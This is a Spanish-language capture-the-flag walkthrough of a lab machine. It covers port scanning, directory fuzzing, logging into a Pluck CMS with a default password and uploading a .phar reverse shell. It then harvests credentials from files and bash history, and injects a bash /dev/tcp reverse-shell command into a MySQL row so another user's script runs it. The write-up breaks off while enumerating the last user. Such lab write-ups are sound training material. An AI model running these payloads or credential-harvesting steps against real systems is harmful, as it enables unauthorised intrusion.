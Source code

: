 ### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.87 seconds
```
### ports: 22/ssh - 80/http

### empezamos enumerando el puerto 80
![[Pasted image 20231121122855.png]]
en este caso parece que no tenemos mucho
### Fuzzing con gobuster
![[Pasted image 20231121123528.png]]
### tenemos un directorio llamado app. en el que encontramos una carpeta llamada pluck
![[Pasted image 20231121123646.png]]
### nos lleva a lo que parece ser la pagina principal
![[Pasted image 20231121123850.png]]
### aquí podemos enumerar el framework en el que esta echo la pagina y también un usuario admin
### si entramos en admin nos dirige a una pagina donde podremos logearnos pero aun no tenemos credenciales. lo que si podemos conseguir es lo que parece ser la version del framework y este lo podemos usar para buscar exploit que nos ayuden a entrar en la pagina
![[Pasted image 20231121124556.png]]
### despues de una busqueda en internet hemos encontrado un script que no funciona pero leyendo el codigo hemos descubierto que la clave que utiliza para ingresar a la pagina es password
### enumerando todos las rutas de la pagina parece que tenemos un apartado que nos permite subir archivos
![[Pasted image 20231121134946.png]]
### intentaremos subir un archivo que contenga una revershell 
### despues de hacer un monton de pruebas parece que la pagina agrega .txt a cada archivo que subimos asi que intentamos baypassar esto probando muchas opciones y phar nos ha funcionado
![[Pasted image 20231121145707.png]]
### nos ponemos a la escucha y recibimos nuestra shell
![[Pasted image 20231121145905.png]]
### Despues de hacer tratamiento de tty vamos al directorio /home
![[Pasted image 20231121151554.png]]
### dentro del directorio /home tenemos tres usuarios 
```python
	Username: death
	
	username: lucien
	
	username morpheus
```

### en este caso primero vamos a intentar enumerar al usuario morpheus, donde podemos ver la flag pero no tenemos permisos. y tambien tenemos un archivo restore.py muy interesante

![[Pasted image 20231121152552.png]]
### si hacemos un cat al archivo restore.py no tenemos mucha informacion asi que iremos por otro usuario

![[Pasted image 20231121153245.png]]

### despues de una larga busqueda e intentando muchisimas cosas entre ellas pspy64 el cual no se puede ejecutar debido a un archivo en el sistema que lo impide hemos encontrado esto:
![[Pasted image 20231121162834.png]]
### en el directorio opt existe un archivo llamado test.py y haciendo un cat podemos ver que al parecer contiene la contraseña del usuario lucien 

![[Pasted image 20231121163324.png]]
### efectivamente el archivo test.py contenia las credenciales de lucien
### hacemos cat al archivo getDreams.py
![[Pasted image 20231121163711.png]]
### obtenemos información sobre una base de datos mysql. este archivo parese mostrarnos lo que esta alojado en la base de datos. esto es muy importante ya que podremos usarlo mas adelante
### vamos a intentar buscar el bash_history del usuario lucien para intentar recopilar mas informacion
![[Pasted image 20231121172038.png]]
### genial. optenemos informacion valiosa. al parecer lucien se ha conectado en el pasado a la base de datos usando las credenciales que quedaron almacenadas en el bash_history. vamos a aprovechar esto para conectarnos a la base de datos y ver que tipo de informacion podemos sacar...
![[Pasted image 20231121181702.png]]
### vamos a mirar en toda la base de datos
![[Pasted image 20231121212309.png]]
### nos aprovecharemos del archivo que mencionamos anteriormente el cual hace un llamado de todo lo que esta en la base de datos e intentaremos inyectar una shell a la base de datos para que cuando ejecutemos el archivo con suerte esto nos envie una shell
### vamos a inyectar codigo a la base de datos

```python
	INSERT into dreams (dreamer,dream) VALUE ("Gamuke","; bash -c 'bash -i >& /dev/tcp/10.8.203.6/9001 0>&1'");
```

![[Pasted image 20231121214156.png]]

### tenemos nuestro codigo malicioso inyectado en la base de datos asi que vamos a ejecutar el archvo.
![[Pasted image 20231121214610.png]]
### logramos tener conexion. dentro de este usuario hacemos cat al archivo getDreams.py
![[Pasted image 20231121215212.png]]
### hemos conseguido credenciales para el usuario death las cuales podriamos verificar si ingresamos via ssh
### nos falta enumerar el ultimo usuario
![[Pasted image 20231121215810.png]]
